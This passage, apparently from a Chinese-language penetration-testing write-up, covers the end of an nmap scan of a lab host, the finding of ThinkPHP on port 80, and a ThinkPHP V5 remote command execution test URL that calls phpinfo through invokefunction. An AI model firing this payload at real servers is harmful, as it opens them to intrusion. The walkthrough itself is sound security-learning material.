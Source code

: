 ```bash
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.02 seconds
```

目标为 Linux 系统，开放 21、22、80、8888 等端口。查看 80 端口的 web 服务：

[![](assets/1705981930-787689e898506ee04088333fa778817a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143214-d0bfc0f8-b826-1.png)

### 2.2 漏洞利用

目标端口使用 ThinkPHP 框架，查看 V5 过去爆出来的漏洞

使用远程命令执行漏洞的 payload 进行测试：

```bash
http://192.168.179.161/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```
